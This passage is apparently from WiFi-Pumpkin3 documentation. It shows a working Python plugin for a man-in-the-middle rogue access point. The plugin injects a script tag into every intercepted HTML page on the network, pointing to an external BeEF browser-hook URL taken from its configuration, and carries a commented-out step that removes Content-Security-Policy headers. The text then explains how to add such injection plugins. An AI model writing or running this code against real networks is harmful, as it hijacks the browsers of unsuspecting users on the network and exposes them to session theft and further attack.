 ### Example from Wp3 with Argummets 
``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup


class beef(BasePumpkin):
    meta = {
        "_name": "beef",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return beef.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.urlhook = self.config.get("set_beef", "hook")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "lxml")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.urlhook
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data

```

You can easily implement a module to inject data into pages creating a python file in directory "plugins/extension/" and run `make setup` that on next start the prompt, the plugin is there.




### Developing Plugin MITM Attack
